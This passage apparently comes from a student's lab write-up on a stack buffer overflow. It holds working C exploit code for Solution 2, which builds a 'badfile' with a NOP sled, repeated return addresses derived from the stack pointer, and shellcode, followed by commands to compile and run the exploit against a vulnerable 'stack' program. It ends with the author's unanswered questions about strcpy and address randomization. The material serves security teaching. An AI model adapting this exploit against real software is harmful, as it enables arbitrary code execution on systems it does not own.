 ```c
}
```

we fill the shellcode starting at `buffer_address + 0x100`, and fill the start_address(`0xbfffeb30 + 0x100`) into `buffer_address + 0x24`。

After doing this, compile and run.

```shell
gcc -o exploit exploit.c
./exploit
./stack
```

### Solution 2:

```c
unsigned long get_sp(){
    __asm__("movl %esp,%eax");
}
void main(int argc, char **argv){
    char buffer[517];
    FILE *badfile;
    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);
    /* You need to fill the buffer with appropriate contents here */ 
    //fill shell code into buffer
    long* addr_ptr, addr;
    int offset = 100;
    addr = get_sp() + offset;
    addr_ptr = (long *)buffer;
    for(int i = 0; i < 10; i++)
        *(addr_ptr++) = addr;
    // strcpy(buffer + 100, shellcode);
    memcpy(buffer + sizeof(buffer) - sizeof(shellcode), shellcode, sizeof(shellcode));

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

In this solution we define a function `unsigned long get_sp()` to get the esp value, it's equal to what we do by using gdb.

![](images/Buffer-Overflow/Screenshot%20from%202019-10-21%2010-38-04.png)

### Question Unsolved:

When i tried to **compare two solutions above**, i found that:

1.  In solution 2, substitute `memcpy()` function with `strcpy()` function, it did work on my PC but didn’t work in PC in BZ306 (Received a Segmentation fault). I don’t know why.
2.  When i try to turn on the address randomization, the solution 2 doesn’t work. I expected it work but it did not.
